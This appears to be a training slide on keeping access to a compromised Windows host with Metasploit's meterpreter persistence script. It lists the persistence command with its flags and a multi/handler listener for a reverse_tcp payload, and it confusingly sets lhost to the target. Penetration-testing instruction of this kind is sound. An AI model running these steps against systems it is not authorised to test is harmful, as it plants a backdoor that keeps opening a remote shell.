

# Using meterpreter persistence.rb
Once compromised with a meterpreter session:
Run persistence -h
Choose flags
Example run:
Run persistence -U -i 5 -p 443 -r target.ip
Reboot
In metasploit:
Use exploit/multi/handler
Set payload windows/meterpreter/reverse_tcp
Set lhost target.ip
Set lport 443
exploit